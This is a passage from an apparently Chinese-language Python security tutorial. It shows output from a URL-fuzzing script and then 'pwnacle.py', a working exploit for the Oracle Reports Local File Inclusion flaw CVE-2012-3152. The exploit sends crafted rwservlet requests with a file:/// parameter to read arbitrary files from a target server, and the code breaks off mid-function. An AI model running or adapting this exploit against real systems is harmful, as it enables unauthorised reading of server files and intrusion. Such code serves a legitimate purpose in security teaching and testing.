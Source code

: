 运行效果:

```
$ python sling.py -i urls.txt -r sp.py -s python
[+] URL: http://www.primalsecurity.net/#!/usr/bin/python [404] Found: 'python' in ouput
[+] URL: http://www.primalsecurity.net/from spider import webspider as myspider [404] Found: 'python' in ouput
[+] URL: http://www.primalsecurity.net/import sys, optparse [404] Found: 'python' in ouput
[+] URL: http://www.primalsecurity.net/ [200] Found: 'python' in ouput
```

## <a name='11'>[自动攻击web程序](#11)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

不久前Oracle爆出了一个`Local File Inclusion (LFI)`漏洞，但这个时候只有`PoC`代码存在，并不存在检测工具，可以自己实现一个工具。

`pwnacle.py`:

```python
#######################################
# pwnacle.py - Exploits CVE-2012-3152 #
# Oracle Local File Inclusion (LFI)   #
#######################################

import urllib, sys, ssl, inspect
exec inspect.getsource(ssl.wrap_socket).replace("PROTOCOL_SSLv23","PROTOCOL_SSLv3") in dict(inspect.getmembers(ssl.wrap_socket))["func_globals"]
import socket

server = sys.argv[1]      # Assigns first argument given at the CLI to 'server' variable
dir = sys.argv[2]         # Assigns second argument given at the CLI to 'dir' variable
ip = server.split('/')[2] # formats the server by splitting the string based on the '/' which grabs the IP out of 'http://ip/'

#request format to exploit the vulnerability
req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'
print "Sending Request: "+server+req+dir+'"'

if 'http://' in server: # Use urllib module for http -- self signed SSL certs caused an exception with urllib
    try:
        conn = urllib.urlopen(server+req+dir+'"') # Sent the request to the server
        out = conn.readlines()
        for item in conn:
            print item.strip()
    except Exception as e:
        print e

if 'https://' in server:  # Create web request with ssl module
    try:
        conn = ssl.wrap_socket(socket.create_connection((ip, 443)))
        request = 'GET '+req+dir+'"'+' HTTP/1.1'+'\n'
        request += 'Host: '+ip+'\n'
        request += 'User-Agent: Mozilla/5.0 '+'\n'
        request += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'+'\n'
        request += 'Accept-Language: en-US,en;q=0.5'+'\n'
```